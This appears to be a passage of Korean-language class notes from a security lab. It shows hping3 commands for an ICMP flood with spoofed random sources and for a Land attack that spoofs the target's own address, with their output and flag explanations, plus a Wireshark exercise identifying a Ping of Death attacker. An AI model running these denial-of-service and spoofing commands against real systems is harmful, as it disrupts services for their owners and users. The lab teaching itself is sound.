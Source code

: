 

- 플러드 했을 때

root@kali-04:~/Desktop# hping3 -1 --rand-source -d 65000 172.16.10.20 --flood

```
HPING 172.16.10.20 (eth0 172.16.10.20): icmp mode set, 28 headers + 65000 data bytes
hping in flood mode, no replies will be shown
^C
--- 172.16.10.20 hping statistic --- // 비슷하게 핑 시간 보냈는데
734 packets transmitted, 0 packets received, 100% packet loss // 단시간에 엄청 패킷 많이 보냄
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

-> 공격자 PC의 사양도 좋아야하기 때문에 수업시간에는 안쓸거임 



#### Qustion 4 와이어샤크 문제

hint : Ping of Death 

공격자 IP : 125.128.26.166

공격대상 IP : 125.128.26.170

찾는방법

filter : icmp.type==8 -> Destination 이 모두 125.128.26.170 인 걸 보아 공격대상자는 125.128.26.170

Source 보면 IP만 바뀌지 MAC주소는 그대로임 -> Filter : eth.addr==00:0c:29:22:22:22 && tcp -> Destination 보면 125.128.26.166 이 공격자임을 알 수 있음



#### Land Attack (96p)

root@kali-04:~/Desktop# hping3 -1 -a 172.16.10.20 172.16.10.20 

-a : 출발지 주소 바꾸는거 

```
HPING 172.16.10.20 (eth0 172.16.10.20): icmp mode set, 28 headers + 0 data bytes
^C
--- 172.16.10.20 hping statistic ---
17 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms


```

root@kali-04:~/Desktop# hping3 -a 172.16.10.20 -s 80 -p 80 -S 172.16.10.20

-s : 포트번호 설정

-p : 목적지 포트 번호 설정

-S : Syn tcp 패킷을 보내겠다.

근데 이렇게하면 출발지 포트가 +1 되니까 안돼

